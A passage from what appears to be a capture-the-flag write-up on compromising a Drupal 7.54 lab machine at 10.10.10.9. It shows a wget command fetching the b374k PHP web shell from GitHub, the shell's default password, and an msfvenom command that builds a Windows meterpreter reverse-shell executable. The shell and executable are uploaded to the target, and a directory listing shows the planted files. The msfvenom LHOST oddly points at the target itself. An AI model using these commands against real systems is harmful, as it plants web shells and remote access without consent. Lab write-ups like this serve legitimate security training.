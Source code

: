 **Got User Flag!**


> Note: when I was trying to catch the shell with metasploit, the session would die instantly I don’t know what was causing this so I moved on without metasploit.

I was trying to find a way to upload files to the machine so I can get a  reverse shell with msf but I couldn’t figure it out, so I used one of **b374k’s** php shell (2.7).

https://raw.githubusercontent.com/BlackArch/webshells/master/php/b374k-2.7.php

I download the file with wget

    wget -O payload1.txt https://raw.githubusercontent.com/BlackArch/webshells/master/php/b374k-2.7.php

Now **payload1.txt** contains the content of the **b374k’s** shell so if we run php **drupal.php** again http://10.10.10.9/ssec.php should be a login page of **b374k’s** web shell & the default password of all **b374k** shells is **b374k** unless you change it. Which I recommend you do to prevent other users from using your shell. I created and uploaded a windows reverse shell through the upload function in **b374k’s** shell.


    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.9 LPORT=4444 -f exe > ssec.exe


    Directory of C:\inetpub\drupal-7.54
    10/09/2017 09:06 ��
    .
    10/09/2017 09:06 ��
    ..
    19/03/2017 01:42 �� 317 .editorconfig
    19/03/2017 01:42 �� 174 .gitignore
    19/03/2017 01:42 �� 5.969 .htaccess
    19/03/2017 01:42 �� 6.604 authorize.php
    19/03/2017 01:42 �� 110.781 CHANGELOG.txt
    19/03/2017 01:42 �� 1.481 COPYRIGHT.txt
    19/03/2017 01:42 �� 720 cron.php
    19/03/2017 01:43 ��
    includes
    19/03/2017 01:42 �� 529 index.php
    19/03/2017 01:42 �� 1.717 INSTALL.mysql.txt
    19/03/2017 01:42 �� 1.874 INSTALL.pgsql.txt
    19/03/2017 01:42 �� 703 install.php
    19/03/2017 01:42 �� 1.298 INSTALL.sqlite.txt
    19/03/2017 01:42 �� 17.995 INSTALL.txt
    19/03/2017 01:42 �� 18.092 LICENSE.txt
    19/03/2017 01:42 �� 8.710 MAINTAINERS.txt
    19/03/2017 01:43 ��
    misc
    19/03/2017 01:43 ��
    modules
    19/03/2017 01:43 ��
    profiles
    19/03/2017 01:42 �� 5.382 README.txt
    19/03/2017 01:42 �� 2.189 robots.txt
    19/03/2017 01:43 ��
    scripts
    19/03/2017 01:43 ��
    sites
    10/09/2017 09:06 �� 73.802 ssec.exe
    10/09/2017 08:58 �� 57.538 ssec.php
    19/03/2017 01:43 ��
    themes
    19/03/2017 01:42 �� 19.986 update.php
    19/03/2017 01:42 �� 10.123 UPGRADE.txt
    19/03/2017 01:42 �� 2.200 web.config
    19/03/2017 01:42 �� 417 xmlrpc.php
    23 File(s) 348.601 bytes